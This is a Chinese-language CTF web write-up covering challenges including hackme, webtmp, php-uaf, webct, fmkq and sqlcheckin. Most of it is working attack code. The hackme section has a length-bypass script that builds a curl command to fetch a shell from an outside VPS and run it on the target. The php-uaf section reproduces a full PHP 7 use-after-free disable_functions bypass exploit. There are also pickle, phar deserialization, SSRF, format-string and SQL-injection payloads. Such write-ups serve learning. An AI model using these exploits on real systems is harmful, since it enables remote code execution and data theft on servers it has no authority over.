









## hackme

[www.zip源码，审计之后看到两个很有意思的操作](http://www.zip源码，审计之后看到两个很有意思的操作)

根目录下的 `init.php`文件中

```php
<?php
//初始化整个页面
error_reporting(0);
//lib.php包括一些常见的函数
include 'lib.php';
session_save_path('session');
ini_set('session.serialize_handler','php_serialize');
session_start();
```

但是在 `core` 目录下的 `init.php` 中

```php
<?php
//初始化整个页面
#error_reporting(0);
//lib.php包括一些常见的函数
include '../lib.php';
session_save_path('../session');
ini_set('session.serialize_handler', 'php');
session_start();
```

用了两种不同的session处理方式

所以提交一个签名为

```
|O:4:"info":1:{s:5:"admin";i:1;}
```

这样再访问 `profile.php` 的时候

```php
<?php
error_reporting(0);
session_save_path('session');
include 'lib.php';
ini_set('session.serialize_handler', 'php');
session_start();

class info
{
    public $admin;
    public $sign;

    public function __construct()
    {
        $this->admin = $_SESSION['admin'];
        $this->sign = $_SESSION['sign'];

    }

    public function __destruct()
    {
        echo $this->sign;
        if ($this->admin === 1) {
            redirect('./core/index.php');
        }
    }
}

$a = new info();
?>
```

就会触发反序列化，然后进入 `core/index.php` 中

`core/index.php` 的源代码

```
<?php

require_once('./init.php');
error_reporting(0);
if (check_session($_SESSION)) {
    #hint : core/clear.php
    $sandbox = './sandbox/' . md5("Mrk@1xI^" . $_SERVER['REMOTE_ADDR']);
    echo $sandbox;
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_POST['url'])) {
        $url = $_POST['url'];
        if (filter_var($url, FILTER_VALIDATE_URL)) {
            if (preg_match('/(data:\/\/)|(&)|(\|)|(\.\/)/i', $url)) {
                echo "you are hacker";
            } else {
                $res = parse_url($url);
                if (preg_match('/127\.0\.0\.1$/', $res['host'])) {
                    $code = file_get_contents($url);
                    if (strlen($code) <= 4) {
                        @exec($code);
                    } else {
                        echo "try again";
                    }
                }
            }
        } else {
            echo "invalid url";
        }
    } else {
        highlight_file(__FILE__);
    }
} else {
    die('只有管理员才能看到我哟');
}
```

不准用 `data` 协议，并且解析到的host必须是 `127.0.0.1` 初看还挺像2019年的byteCTF，但是这里用到的是 `compress.zlib` 协议(学习了)

```
compress.zlib://data:@127.0.0.1/baidu.com?,ls
```

当然也可以用base64的方式

```
compress.zlib://data:@127.0.0.1/plain;base64,
```

之后需要绕过长度来执行命令，脚本就用队友的好了，不能弹shell，只能从vps上下载shell到靶机上

```python
import requests
from time import sleep
from urllib import parse
from requests import session
import base64
import random

s = session()
url = "http://121.36.222.22:88/login.php"
s.post(url, data={'name':'pxypxy'})
url1 = "http://121.36.222.22:88/?page=upload"
s.post(url1, data={'sign':'woc|O:4:"info":2:{s:5:"admin";i:1;s:4:"sign";s:4:"ssss";}'})
url3 = "http://121.36.222.22:88/core/index.php"
s.get(url3)

ip = 'x.x.x.x'
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))for i in ip.split('.')])
pos0 = 'y'
pos1 = 'd'
pos2 = 's'

payload = [
    '>dir',
    '>%s\>' % pos0,
    '>%st-' % pos1,
    '>sl',
    '*>v',
    '>rev',
    '*v>%s' % pos2,
    '>p',
    '>ph\\',
    '>y.\\',
    '>\>\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\ \\',
    '>rl\\',
    '>cu\\',
    'sh ' + pos2,
    'sh ' + pos0,
]

for i in payload:
    data = {'url':'compress.zlib://data:@127.0.0.1/plain;base64,'+base64.b64encode(i.encode()).decode()}
    r = s.post(url3, data=data)
    print(r.text)
    print(data['url'])
    sleep(0.1)
```

## webtmp

分析

考点是pickle反序列化，过滤掉了 R 指令码，并且重写了 `find_class`：

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__':
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

这就禁止引用除了 `__main__` 之外的其他module，但是如果通过GLOBAL指令引入的变量，可以看作是原变量的引用。我们在栈上修改它的值，会导致原变量也被修改

于是可以先引入 `__main__.secret` 这个module，然后把一个 dict 压入栈，内容是 `{'name': 'xx', 'category': 'yyy'}`,之后执行 build指令，改写 `__main__.secret.name` 和 `__main__.secret.category`,此时 `secret.name`和 `secret.category` 已经变成我们想要的内容

之后再压入一个正常的 Animal对象，name和category分别是 xx和yyy最后构造的pickle数据如下

```
b"\x80\x03c__main__\nsecret\n}(Vname\nVxx\nVcategory\nVyyy\nub0c__main__\nAnimal\n)\x81}(S'name'\nS'xx'\nS'category'\nS'yyy'\nub."
```

编码为base64提交即可

```
gANjX19tYWluX18Kc2VjcmV0Cn0oVm5hbWUKVnh4ClZjYXRlZ29yeQpWeXl5CnViMGNfX21haW5fXwpBbmltYWwKKYF9KFMnbmFtZScKUyd4eCcKUydjYXRlZ29yeScKUyd5eXknCnViLg==
```

## php-uaf

[脚本](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)

```php
rddshell
  
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn('/readflag');

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```

上传到tmp目录就行了



## webct

`www.zip` 源码泄露(现在好多web题都喜欢这么搞了)

这题主要是对伪造mysql的考察，但是有一个坑点



我们可以设置`option`为8，然后就启用`MYSQL_OPT_LOCAL_INFILE`了。



之后构造一个POP链就行了，POP链不是很长

```php
<?php

class Listfile
{
    public $file;

    function __construct()
    {
        $this->file = ";/readflag";
    }
}

class Fileupload
{
    public $file;

    function __construct()
    {
        $this->file = new Listfile();
    }
}

$payload = new Fileupload();

$exp = new Phar('yds.phar');
$exp -> startBuffering();
$exp->setStub('<?php __HALT_COMPILER(); ? >');
$exp -> addFromString('test.txt','test');
$exp -> setMetadata($payload);
$exp -> stopBuffering();
```



## fmkq

这题估计是很多队伍都比较头疼的了，3月7日那天折腾了一下午直到晚上才有师傅做出来

源代码

```php
<?php
error_reporting(0);
if(isset($_GET['head'])&&isset($_GET['url'])){
    $begin = "The number you want: ";
    extract($_GET);
    if($head == ''){
        die('Where is your head?');
    }
    if(preg_match('/[A-Za-z0-9]/i',$head)){
        die('Head can\'t be like this!');
    }
    if(preg_match('/log/i',$url)){
        die('No No No');
    }
    if(preg_match('/gopher:|file:|phar:|php:|zip:|dict:|imap:|ftp:/i',$url)){
        die('Don\'t use strange protocol!');
    }
    $funcname = $head.'curl_init';
    $ch = $funcname();
    if($ch){
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        curl_close($ch);
    }
    else{
        $output = 'rua';
    }
    echo sprintf($begin.'%d',$output);
}
else{
    show_source(__FILE__);
}
```

几个小trick

-   `$head = \` 这样拼接之后就是根命名空间
-   协议基本都被过滤干净了就只能用http协议
-   `$begin= %s%`
-   过滤了 `log`，我估计是出题人不想让你去读日志(因为后面发现可以读除了flag之外的任意文件)

之后就扫内网，看到开放了8080端口



这里的坑点就比较多了，首先需要知道vipcode

```
?head=\&url=http://127.0.0.1:8080/read/file={file.vip.__dict__}%26vipcode=0&begin=%s%
```



然后读文件

```
/?head=\&url=http://127.0.0.1:8080/read/file=/app/base/vip.py%26vipcode=m3O5PGEBMnbX0N8ugWlIoijtFaS9KsqVAQdvZyT1cheCxpwf&begin=%s%
```



`vip.py`

```python
Welcome,dear vip! Here are what you want:
The file you read is:
/app/base/vip.py

The content is:
import random
import string

vipcode = ''

class vip:
    def __init__(self):
        global vipcode
        if vipcode == '':
            vipcode = ''.join(random.sample(string.ascii_letters+string.digits, 48))
            self.truevipcode = vipcode
        else:
            self.truevipcode = vipcode

    def GetCode(self):
        return self.truevipcode

Other files under the same folder:
__pycache__ __init__.py vip.py readfile.py%d
```

`readfile.py`

```python
from .vip import vip
import re
import os

class File:
    def __init__(self,file):
        self.file = file

    def __str__(self):
        return self.file

    def GetName(self):
        return self.file

class readfile():

    def __str__(self):
        filename = self.GetFileName()
        if '..' in filename or 'proc' in filename:
            return "quanbumuda"
        else:
            try:
                file = open("/tmp/" + filename, 'r')
                content = file.read()
                file.close()
                return content
            except:
                return "error"

    def __init__(self, data):
        if re.match(r'file=.*?&vipcode=.*?',data) != None:
            data = data.split('&')
            data = {
                data[0].split('=')[0]: data[0].split('=')[1],
                data[1].split('=')[0]: data[1].split('=')[1]
            }
            if 'file' in data.keys():
                self.file = File(data['file'])

            if 'vipcode' in data.keys():
                self.vipcode = data['vipcode']
            self.vip = vip()

    def test(self):
        if 'file' not in dir(self) or 'vipcode' not in dir(self) or 'vip' not in dir(self):
            return False
        else:
            return True

    def isvip(self):
        if self.vipcode == self.vip.GetCode():
            return True
        else:
            return False

    def GetFileName(self):
        return self.file.GetName()

current_folder_file = []

class vipreadfile():
    def __init__(self,readfile):
        self.filename = readfile.GetFileName()
        self.path = os.path.dirname(os.path.abspath(self.filename))
        self.file = File(os.path.basename(os.path.abspath(self.filename)))
        global current_folder_file
        try:
            current_folder_file = os.listdir(self.path)
        except:
            current_folder_file = current_folder_file

    def __str__(self):
        if 'fl4g' in self.path:
            return 'nonono,this folder is a secret!!!'
        else:
            output = '''Welcome,dear vip! Here are what you want:\r\nThe file you read is:\r\n'''
            filepath = (self.path + '/{vipfile}').format(vipfile=self.file)
            output += filepath
            output += '\r\n\r\nThe content is:\r\n'
            try:
                f = open(filepath,'r')
                content = f.read()
                f.close()
            except:
                content = 'can\'t read'
            output += content
            output += '\r\n\r\nOther files under the same folder:\r\n'
            output += ' '.join(current_folder_file)
            return output
```

过滤掉了 `fl4g`



看到 `current_folder_file` 是 global 的

所以读一次根目录的文件，让`current_folder_file` 里面有 `fl4g`



```
/?head=\&url=http://localhost:8080/read/file=/{vipfile.__class__.GetName.__globals__[current_folder_file][21]}/flag%26vipcode=m3O5PGEBMnbX0N8ugWlIoijtFaS9KsqVAQdvZyT1cheCxpwf&begin=%s%
```

或者这个

```
http://121.37.179.47:1101/?head=\&begin=%1$s&url=http://127.0.0.1:8080/read/file={vipfile.__class__.__init__.__globals__[__name__][9]}l4g_1s_h3re_u_wi11_rua/flag%26vipcode=kWSRgrZO9VjAJzaHsIwqXEtfF5u6GxM0ov74le18hcNnUpd3
```

## sqlcheckin

false注入

`username='%'1&password='%'1`

即可

## nweb

## happyvacation
